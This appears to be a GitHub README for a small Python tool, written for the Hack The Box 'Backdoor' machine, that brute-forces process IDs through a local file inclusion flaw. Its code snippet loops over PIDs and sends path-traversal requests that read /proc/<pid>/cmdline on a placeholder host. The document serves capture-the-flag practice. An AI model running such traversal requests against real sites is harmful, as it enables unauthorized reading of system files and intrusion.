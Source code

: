 # PID-bruteforce-via-LFI

## Vulnerability
I wrote this python script to help solve the backdoor machine in Hack The Box. The script was used for a brute forcing PID via LFI vulnerability. 


### Tool Overview

The tool Brute-force multiple requests trying a range of numbers for all the PID in the proc directory and filter the results based on the responses length  .

### How to Setup:
1. Change the URL paramenter with the LFI vulnerable site`

```py

for x in range(0,10000):

	url = "http://VULNERABLE.SITE.URL/../../../../../../proc/"+ str(x) +"/cmdline"
	r = requests.get(url)
	
```         

### Usage:
Use this command to run the python tool you just setup:

`Python3 PID-via-LFI.py`


| Screenshot |
|------------|
|![Screenshot](![PID](https://user-images.githubusercontent.com/68829493/155852527-175a99b4-60d4-4704-9033-fb59b04c2fb5.png)
)






